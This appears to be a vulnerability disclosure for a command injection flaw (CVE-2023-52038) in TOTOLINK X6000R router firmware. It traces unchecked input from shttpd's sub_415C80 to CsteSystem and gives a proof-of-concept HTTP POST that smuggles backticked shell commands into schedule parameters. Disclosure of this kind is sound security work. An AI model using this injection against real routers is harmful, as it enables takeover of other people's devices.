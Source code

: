 # TOTOLINK X6000R Command Execution Vulnerability

## Product infomation

Vendor of the product: https://www.totolink.net/

Product version: X6000R_Firmware V9.4.0cu.852_B20230719

Firmware download address: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## vulnablitity overview

In TOTOLINK X6000R V9.4.0cu.852_B20230719, the executable program shttpd’s sub_415C80 function obtains a string through the Uci_Set_Str function without checking it, and passes it to the CsteSystem function, causing a command execution vulnerability.

## Analyse

In the binary file shttp, the function sub_415C80 gets the mode, week, hour and other parameters, and then passes them to the Uci_Set_Str.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img1.png" alt="img1" style="zoom:80%;" />

In the binary file libcscommon.so, the function Uci_Set_Str calls the CsteSystem.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img2.png" alt="img2" style="zoom:80%;" />

In CsteSytem, the command will be executed directly.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img3.png" alt="img3" style="zoom:80%;" />

## Exploit

Access the web page that contains vulnerability and use Fiddler to capture packets.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img4.png" alt="img4" style="zoom:80%;" />

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img5.png" alt="img5" style="zoom:80%;" />

Replay after modifying the parameters of the traffic packet

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img6.png" alt="img6" style="zoom:80%;" />

poc

```http
POST http://192.168.10.2/cgi-bin/cstecgi.cgi HTTP/1.1
Host:192.168.10.2
User-Agent:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept:application/json, text/javascript, */*; q=0.01
Accept-Language:en-US,en;q=0.5
Accept-Encoding:gzip, deflate
Content-Type:application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With:XMLHttpRequest
Origin:http://192.168.10.2
Connection:keep-alive
Referer:http://192.168.10.2/advance/schedule.html

{"mode":"`ls > /0.txt`","hour":"`ls > /1.txt`","minute":"`ls > /2.txt`”, "week":"`ls > /3.txt`","recHour":"`ls > /4.txt`","topicurl":"setScheduleCfg"} 
```

before execute

![img7](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img7.png)

after execute

![img8](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/1/img/img8.png)

The command was successfully executed.



## CVE-2023-52038